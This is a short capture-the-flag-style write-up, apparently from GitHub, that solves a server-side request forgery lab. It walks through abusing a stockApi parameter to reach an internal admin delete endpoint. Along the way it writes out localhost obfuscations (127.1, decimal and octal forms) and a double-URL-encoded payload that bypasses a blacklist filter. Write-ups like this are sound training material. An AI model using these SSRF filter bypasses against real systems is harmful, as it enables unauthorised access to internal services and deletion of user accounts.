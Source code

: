 the parameter stockApi here is like lab-1 
`stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1`

decode it :
stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1

let's try just the same as lab-1

stockApi=http://localhost/admin/delete?username=carlos

response : 

![image](https://user-images.githubusercontent.com/67979878/128211514-ccebfd38-fd0d-4704-a11f-3a7f2d83f1ba.png)

let's try different representation for the localhost 

ex: 2130706433, 017700000001 , 127.1 

it can access `stockApi=http://127.1/ ` however when try /admin it returns bad request .

``
By using double encoding it’s possible to bypass security filters that only decode user input once. 
The second decoding process is executed by the backend platform or modules that properly handle encoded data,
but don’t have the corresponding security checks in place.``

so let's check it :

`http://127.1/%61%64%6D%69%6E%2F%64%65%6C%65%74%65%3F%75%73%65%72%6E%61%6D%65%3D%63%61%72%6C%6F%73`

now encode it all 
`http%3a%2f%2f127.1%2f%2561%2564%256D%2569%256E%252F%2564%2565%256C%2565%2574%2565%253F%2575%2573%2565%2572%256E%2561%256D%2565%253D%2563%2561%2572%256C%256F%2573`

solved !
